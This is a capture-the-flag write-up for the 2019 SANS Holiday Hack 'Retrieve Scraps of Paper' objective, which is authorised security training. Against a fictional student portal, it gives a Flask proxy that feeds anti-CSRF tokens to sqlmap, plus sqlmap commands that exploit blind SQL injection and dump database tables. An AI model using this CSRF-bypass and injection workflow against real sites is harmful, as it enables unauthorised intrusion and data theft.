

Retrieve Scraps of Paper from Server#
Terminal Hint: Pepper Minstix - Graylog
Request#
Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there.
What is the name of Santa's cutting-edge sleigh guidance system?
For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.Krampus:
Unfortunately, I managed to lock out my account on the server.
Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
I give you permission to hack into it, solving Objective 9 in your badge.
And, as long as you're traveling around, be sure to solve any other challenges you happen across.
Video#
Resources#
Solution#
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out sqlmap won't do us much good at this point. Both the apply.php and check.php pages contain a set of custom JavaScript functions that first retrieve a token value from validator.php. This value is then added to the form data and submitted to the server as a way to prevent Cross-site request forgery (CSRF). For each request the server will first check the token and only accept the request if the token is valid.
In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a --csrf-url option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the --csrf-token option and validator.php doesn't set any token field names. It just returns the token value as-is.
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
The problem can be solved by translating the validator.php response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below token_proxy.py Python script receives a GET request it grabs a token value from validator.php and adds it as the value to a token field in both the header and body of its own HTTP response.
#!/usr/bin/env python3
"""2019 SANS Holiday Hack Challenge - Retrieve Scraps of Paper from Server."""
import requests
from flask import Flask, Response
app = Flask(__name__)
@app.route("/")
def token():
"""Return a token."""
url = 'https://studentportal.elfu.org/validator.php'
token = requests.Session().get(url).text
# Put the token in the body, input tag, and header.
resp = Response(
f'Token:{token}\n'
'<form>\n'
f' <input type="hidden" id="token" name="token" value="{token}"/>\n'
'</form>\n'
)
resp.headers['token'] = token
return resp
if __name__ == '__main__':
app.run(host='0.0.0.0')
Start the Flask proxy app so it's ready to respond to incoming token requests.
python3 token_proxy.py


Now run the earlier sqlmap command again but with the --csrf-url parameter set to our proxy listening on 127.0.0.1:5000 and --csrf-token set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token


We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the elfmail GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
information_schema is a default MySQL database so request the tables for elfu.
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
Out of the three tables in the elfu database krampus looks like a good candidate so let's dump that.
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

Answer#
Sleigh guidance system name: Super Sled-o-matic
Response#
Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.
We’ve gotta stop whomever is behind it!
I managed to find this protected document on one of the compromised machines in our environment.
I think our attacker was in the process of exfiltrating it.
I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?
There are some smart people in the NetWars challenge room who may be able to help us.